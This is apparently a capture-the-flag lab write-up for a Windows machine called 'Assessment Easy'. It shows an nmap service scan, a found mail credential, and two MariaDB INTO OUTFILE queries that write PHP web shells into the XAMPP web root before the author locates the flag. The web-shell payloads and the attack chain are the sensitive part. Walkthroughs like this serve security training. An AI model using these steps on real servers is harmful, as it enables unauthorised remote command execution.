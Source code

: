 # Assessment Easy

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

```
nmap 10.129.203.7 -p 21,25,80,443,587,3306,2289 -sC -sV -oN 10.129.203.7
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 03:57 EDT
Nmap scan report for 10.129.203.7
Host is up (0.19s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open     http        Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open     https       Core FTP HTTPS Server
|_http-server-header: Core FTP HTTPS Server
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2289/tcp filtered dict-lookup
3306/tcp open     mysql       MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: [Rh4j;&L.>.jKy@o3LgA
|_  Auth Plugin Name: mysql_native_password
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>fiona@inlanefreight.htb</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption><p>fiona@inlanefreight.htb:987654321</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [phpmyadmin]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell.php';
Query OK, 1 row affected (0.190 sec)
```



```
MariaDB [(none)]> SELECT "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell2.php';
Query OK, 1 row affected (0.190 sec)
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
dir /s /b C:\flag.txt
```

then type the flag file and get the flag.
